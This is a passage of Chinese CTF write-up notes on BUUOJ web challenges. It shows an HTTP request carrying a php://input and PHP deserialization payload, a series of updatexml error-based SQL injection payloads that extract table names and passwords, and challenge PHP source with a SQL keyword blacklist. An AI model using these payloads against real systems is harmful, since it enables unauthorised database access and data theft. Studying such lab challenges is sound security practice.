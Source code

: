 
```
POST /?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} HTTP/1.1
Host: a5aaf467-b6af-4778-975a-015d32ec294a.node3.buuoj.cn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=178e3bcc14b20-0818dc9f78314e-5771133-190140-178e3bcc14cc71
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

welcome to the zjctf
```

## 极客大挑战-2019-HardSQL

这里用的黑名单检测

```
?username=admin%27or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(left(password,30))from(H4rDsq1)),0x7e),1))%23
right()
```

## CISCN2019-华北赛区-Day2-Web1-Hack-World

```php
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
```